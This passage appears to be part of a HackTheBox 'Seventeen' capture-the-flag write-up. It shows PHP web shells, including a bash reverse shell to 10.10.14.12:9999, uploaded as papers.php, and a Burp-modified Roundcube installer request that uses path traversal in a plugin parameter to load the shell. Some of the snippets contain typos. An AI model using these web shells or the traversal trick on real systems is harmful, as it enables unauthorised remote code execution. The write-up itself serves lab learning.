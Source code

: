## uplaod papers.php
### uploaded papers.php
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/upload%20papers.php.png)
### papers.php
````bash
<?php 
sytem($_REQUEST['shell']);
?>

<?php
system('bash -c "bash -i >& /dev/tcp/10.10.14.12/9999 0>&1"');
?>

<?php
echo hello
system($_GET['cmd']);
?>

`````

### update installer config file
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/roundcube%20mastermailer%20step2.png)

### burp intercept UPDATE CONFIG
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/roundcube%20burp%20intercept%20update%20config.png)

### modifiy post data
```bash

//unmodified
_step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&_plugins_qwerty=../../../../../../dev/shm/zipdownload&submit=UPDATE+CONFIG

//modified
_step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&_plugins_qwerty=../../../../../../../../var/www/oldmanagement/files/31234/papers&submit=UPDATE+CONFIG

//or
_step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&_plugins_qwerty=../../../../../../../../var/www/html/oldmanagement/files/31234/papers&submit=UPDATE+CONFIG

`````

### successfully saved new config file
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/roundcube%20mastermailer%20save%20config.png)
